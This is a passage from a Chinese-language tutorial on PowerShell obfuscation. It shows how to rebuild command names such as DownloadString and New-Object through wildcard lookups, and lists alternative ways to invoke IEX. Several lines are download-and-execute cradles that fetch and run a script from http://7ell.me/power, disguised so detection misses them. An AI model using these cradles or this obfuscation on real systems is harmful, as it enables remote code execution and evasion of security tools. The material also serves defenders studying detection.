 ```
$secCmd= $secCmdPlaintext| ConvertTo-SecureString -Key (1..16);([System.Runtime.InteropServices.Marshal]::PtrToStringAuto([System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($secCmd))) | IEX
```

**2.6 自构造关键字替换**

就是在其他命令的输出下查看观察目标字符串位置，然后提取出来。比如DownlaodString的构造替换



```
DownloadString == (((New-Object Net.WebClient).PsObject.Methods | Where-Object `{`$_.Name -like '*wn*d*g'`}`).Name)
IEX (New-Object Net.WebClient).(((New-Object Net.WebClient).PsObject.Methods | Where-Object `{`$_.Name -like '*wn*d*g'`}`).Name).Invoke('http://7ell.me/power')
```

再结合get-command的变形

```
IEX (.(COMMAND *w-*ct) Net.WebClient).(((.(COMMAND *w-*ct) Net.WebClient).PsObject.Methods | Where-Object `{`$_.Name -like '*wn*d*g'`}`).Name).Invoke('http://7ell.me/power')
```

根据这样的思路结合上面提到的获取环境变量方法，可以把New-Object层层混淆为 

```
(GV E*onte*).Value.(((GV E*onte*).Value|GM)[6].Name).(((GV E*onte*).Value.(((GV E*onte*).Value|GM)[6].Name).PsObject.Methods|Where`{`(GCI Variable:_).Value.Name-ilike'*Co*d'`}`).Name).Invoke((GV E*onte*).Value.(((GV E*onte*).Value|GM)[6].Name).(((GV E*onte*).Value.(((GV E*onte*).Value|GM)[6].Name)|GM|Where`{`(GCI Variable:_).Value.Name-ilike'G*om*e'`}`).Name).Invoke('N*ct',$TRUE,1), [System.Management.Automation.CommandTypes]::Cmdlet)
```



**3. IEX 的处理与其他执行方法**

经过上面构造可以看到很多都使用Invoke-Expression/IEX命令，.，&amp;符号来执行表达式。

Invoke-Expression/IEX命令是很常用的一个命令， 运行一个以字符串形式提供的PowerShell表达式。

这里也先看看代替IEX的各种执行方式

Get-Alias/GAL



```
&amp;(GAL I*X)
.(LS Alias:/I*X)
Get-Command/GCM
.(GCM I*e-E*)
&amp;(Command I*e-E*)
```



GetCmdlets (PS1.0+),

```
$ExecutionContext.InvokeCommand.GetCmdlets('I*e-E*'),
//用到环境变量
&amp;(GV E*Cont* -Va).InvokeCommand.(((GV E*Cont* -Va).InvokeCommand.PsObject.Methods|Where`{`(GV _ -Va).Name -clike'*Cm*ts'`}`).Name).Invoke('I*e-E*')
```
